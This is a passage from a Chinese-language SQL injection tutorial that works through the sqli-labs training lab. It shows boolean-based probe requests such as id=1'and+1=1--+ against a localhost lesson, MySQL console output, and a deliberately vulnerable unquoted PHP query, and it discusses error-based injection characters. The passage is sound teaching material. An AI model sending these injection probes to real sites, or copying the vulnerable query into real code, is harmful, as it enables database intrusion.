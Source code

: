 ```shell
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set, 1 warning (0.00 sec)

mysql> SELECT * FROM users WHERE id='1' and 1=2'' LIMIT 0,1;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' LIMIT 0,1' at line 1
mysql> SELECT * FROM users WHERE id='1' and 1=2-- ' LIMIT 0,1;
Empty set (0.00 sec)

mysql> SELECT * FROM users WHERE id='1' and 1=1-- ' LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
```

现在我们按此思路重新构造两个请求。

* 请求 1：http://localhost/Less-8/?id=1'and+1=1--+

* 请求 2：http://localhost/Less-8/?id=1'and+1=2--+

![Drawing 5.png](https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPSSAcUf3AAOSbJ2meEM358.png)  
图 6：请求 1 展示图

![Drawing 6.png](https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPSqACFm1AAOOcCQ2IIE741.png)  
图 7：请求 2 展示图

我们可以看到，两次结果是不一样的，主要体现在有无"You are in..........."字符串，此时我们就可以确认 SQL 注入是存在的。

#### 报错型注入

有错误回显的都可以尝试使用报错型注入方法，在 sqli-labs 第 11 题中介绍的单引号注入方式就是最简单有效的检测方法，它的本质是设法构造出错误的 SQL 语法使其执行错误。

前面列举的都是字符型注入，这次我们聊下整数型的。以 sqli-labs 第 2 题为例，我们重点看下导致注入的语句：

```sql
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

$id 参数两边无引号，这是典型的整数型注入。虽然是整数型的，但你使用单引号注入依然会报错，因为语句未得到有效闭合。

既然我们的目标是让 SQL 语法错误，那方法就多了，各种造成语句无法闭合的字符：单引号、双引号、大中小括号等标点符号、特殊符号、宽字符等，还有 SQL 语句中的关键词，比如 IF、SELECT 都可以。

下图是注入中文句号（宽字符）导致的错误：

![Drawing 7.png](https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPTmAH1smAAOLYXHDOxU134.png)  
图 8：宽字符导致的错误

注入关键词 IF 导致的错误：

